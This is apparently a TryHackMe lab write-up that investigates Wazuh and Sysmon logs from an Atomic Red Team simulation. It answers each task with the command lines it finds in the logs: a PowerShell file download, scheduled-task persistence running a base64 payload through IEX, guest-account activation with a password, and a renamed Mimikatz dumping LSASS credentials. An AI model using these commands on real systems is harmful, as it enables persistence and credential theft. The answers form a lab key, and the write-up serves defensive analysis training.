 # TryHackMe – Monday Monitor (Wazuh + Sysmon Investigation)

**Scenario:**  
Swiftspend Finance is upgrading its endpoint monitoring using **Wazuh** and **Sysmon**.  
A test simulation was conducted on **Apr 29, 2024 (12:00–20:00)** to evaluate detection capabilities.  
You are tasked with investigating suspicious process activity and network connections within this timeframe.

---
 
   ![Screenshot](Document_Images/image1.png)


Go to queries select Monday_Monitor and set the time Apr 29, 2024, between 12:00:00 and 20:00:00. The dashboard will be showing the event of day Apr 29, 2024, between 12:00:00 and 20:00:00.

   ![Screenshot](Document_Images/image2.png)
   

Go to events prepare for investigation.
 
   ![Screenshot](Document_Images/image3.png)



---
Task 1: Initial access was established using a downloaded file. What is the file name saved on the host?

Go to the search bar search the “localhost “, see what adversary save the file on host.   I see an event rule description : Detects suspicious file execution by wscript and cscript.

 

data.win.eventdata.commandLine :
\"powershell.exe\" &amp; {$url = 'http://localhost/PhishingAttachment.xlsm' Invoke-WebRequest -Uri $url -OutFile $env:TEMP\\SwiftSpend_Financial_Expenses.xlsm}

What it does: This PowerShell command downloads a file (PhishingAttachment.xlsm) from a local web server (http://localhost) and saves it to the temporary folder with a disguised filename: SwiftSpend_Financial_Expenses.xlsm.
Purpose: This type of command is commonly used in phishing or malware scenarios where an attacker tricks users into opening a malicious Excel file that appears legitimate.
 Red Flags:
•	Uses PowerShell to silently download files.
•	Renames the file to look like a finance document to avoid suspicion.
•	Could be used in incident response training or malware analysis labs to simulate suspicious behavior.

Answer: SwiftSpend_Financial_Expenses.xlsm

   ![Screenshot](Document_Images/image4.png)


---
Task 2: What is the full command run to create a scheduled task?

On Windows, schtasks.exe is commonly used to create or check scheduled tasks. I observed the following value in data.win.eventdata.parentCommandLine:

Answer : \"cmd.exe\" /c \"reg add HKCU\\SOFTWARE\\ATOMIC-T1053.005 /v test /t REG_SZ /d cGluZyB3d3cueW91YXJldnVsbmVyYWJsZS50aG0= /f &amp; schtasks.exe /Create /F /TN \"ATOMIC-T1053.005\" /TR \"cmd /c start /min \\\"\\\" powershell.exe -Command IEX([System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String((Get-ItemProperty -Path HKCU:\\\\SOFTWARE\\\\ATOMIC-T1053.005).test)))\" /sc daily /st 12:34\"

Purpose: Create a scheduled task that runs a PowerShell payload (decoded from the registry) daily at 12:34 PM.

What this does:
1.	Adds a registry key with a base64 payload (cGluZyB3d3cueW91YXJldnVsbmVyYWJsZS50aG0=).
2.	Creates a scheduled task named DemoTask.
3.	The task runs daily at 12:34 PM, executing the base64-decoded PowerShell command.

4.	Why it’s used: This technique hides the real payload in the registry and uses a scheduled task to persist and execute it—common in persistence or malware simulation.
  
   ![Screenshot](Document_Images/image5.png)



---
Task 3: What time is the scheduled task meant to run?
Answer: 12:34 PM



---
Task 4: What was encoded?

In Task 2, I observed a registry key being added with a Base64-encoded payload: cGluZyB3d3cueW91YXJldnVsbmVyYWJsZS50aG0=
To analyze this, I used CyberChef and applied the From Base64 recipe.
Decoded Result: ping www.youarevulnerable.thm
This command is commonly used in red team or adversary simulation exercises to test outbound connectivity or simulate data exfiltration.

Answer : ping www.youarevulnerable.thm

  ![Screenshot](Document_Images/image6.png)



---
Task 5: What password was set for the new user account?
net.exe is commonly used to observe or modify user accounts on Windows systems.
In the event log, I found the following:
ParentCommandLine: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -ExecutionPolicy bypass
This indicates that PowerShell was used to execute the net.exe command with execution policy bypassed — a possible sign of malicious or scripted behavior.

CommandLine: C:\Windows\system32\net.exe user guest /active:yes
This command activates the built-in Guest account.


   ![Screenshot](Document_Images/image7.png)

Later, I observed another command:
C:\Windows\system32\net.exe user guest I_AM_M0NIT0R1NG

This shows that a password was set for the guest account using the value I_AM_M0NIT0R1NG.

Answer:
Password: I_AM_M0NIT0R1NG


   ![Screenshot](Document_Images/image8.png)


 
----
Task 6: What is the name of the .exe that was used to dump credentials?

Common executables used to dump credentials:
Executable Name	Description
lsass.exe (targeted)	Not the dumper itself, but the process being dumped.
procdump.exe	Microsoft Sysinternals tool often abused to dump LSASS memory.
mimikatz.exe	Well-known credential dumping tool.
dumpert.exe	A stealthy LSASS dumper.
comsvcs.dll	Sometimes used with rundll32.exe to dump memory.
I searched using these examples and found that mimikatz.exe often appears in events.
In my case, I observed the following command line:
C:\Tools\AtomicRedTeam\atomics\T1003.001\bin\x64\memotech.exe "sekurlsa::minidump C:\Users\ADMINI~1\AppData\Local\Temp\2\lsass.DMP" "sekurlsa::logonpasswords full" exit

memotech.exe is a renamed or custom version of Mimikatz, used to execute Mimikatz-like commands:

sekurlsa::minidump

sekurlsa::logonpasswords

sekurlsa::pth

These commands are known techniques for credential dumping. Therefore, memotech.exe is likely a renamed Mimikatz binary.

Conclusion:
memotech.exe was used to dump credentials by executing Mimikatz commands. This activity was detected via process telemetry in the commandLine.

Answer: memotech.exe

  ![Screenshot](Document_Images/image9.png)


